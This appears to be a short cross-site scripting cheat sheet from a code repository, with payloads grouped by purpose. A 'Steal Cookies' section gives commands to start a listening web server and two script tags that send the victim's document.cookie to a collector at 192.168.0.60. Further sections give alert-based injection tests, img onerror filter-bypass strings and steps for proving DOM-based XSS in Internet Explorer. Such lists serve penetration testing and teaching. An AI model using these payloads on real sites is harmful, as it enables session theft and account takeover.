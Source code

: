 Steal Cookies
-----------------------
```
# Use ruby SSL server for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80
# Start PHP Web Server
php -S xxx.xxx.xxx.xxx:<port>

<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```

Testing for DOM based XSS
-----------------------
```
Modern browsers are not vulnerable? Must use Internet Explorer for proof of vuln.
Open Internet Explorer
Press F12
Select the "Emulation" tab
Select "Document Mode" "7" (Try other versions if one does not work)
Reload the page

The "#" symbol in this case means pass everything after it to the DOM
http://xxx.xxx.xxx.xxx/xss/example9.php#<script>alert(123)</script>
```
